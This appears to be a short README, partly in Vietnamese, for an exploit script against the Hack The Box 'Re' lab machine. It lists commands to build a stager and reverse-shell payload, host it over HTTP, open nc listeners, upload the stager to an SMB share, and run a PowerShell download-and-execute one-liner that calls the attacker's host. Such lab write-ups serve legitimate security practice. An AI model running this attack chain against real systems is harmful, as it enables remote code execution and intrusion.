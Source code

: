 # HTB RE Initial Script

HTB RE: `https://app.hackthebox.com/machines/Re`

## Build Payload
    
Command:

   ```sh
   python3 re-payload.py --host <listener_ip> --port <listener_port>
   ```
Result:
- `malicious.obs`: stager script
- `shell.ps1`: reverse shell script

## Run Exploit
### Phase 1 (Luke)
1. Setup server để host file `shell.ps1`
   ```sh
   sudo python3 -m http.server 80
   ```
2. Setup listener
   ```sh
   nc -lvnp <listener_port>
   ```
3. Kết nối đến SMB share
   ```sh
   smbclient -N //<target_ip>/malware_dropbox
   ```
4. Trigger exploit
   ```sh
   put malicious.obs
   ```
### Phase 2 (Luke -> IIS)
1. Get file `malicious.rar`
   ```sh
   cd ../../../users/luke/documents/ods
   wget <listener_ip>/malicious.rar -outfile malicious.rar
   ```
2. Setup listener
   ```sh
   nc -lvnp <listener_port>
   ```
3. Go to `http://re.htb/shell.aspx`
   - Note: add `'<target_ip> re.htb'` to `/etc/hosts`
4. Trigger exploit
   - Program: `powershell`
   - Arguments: `iex(new-object net.webclient).downloadstring('http://<listener_ip>/shell.ps1')`

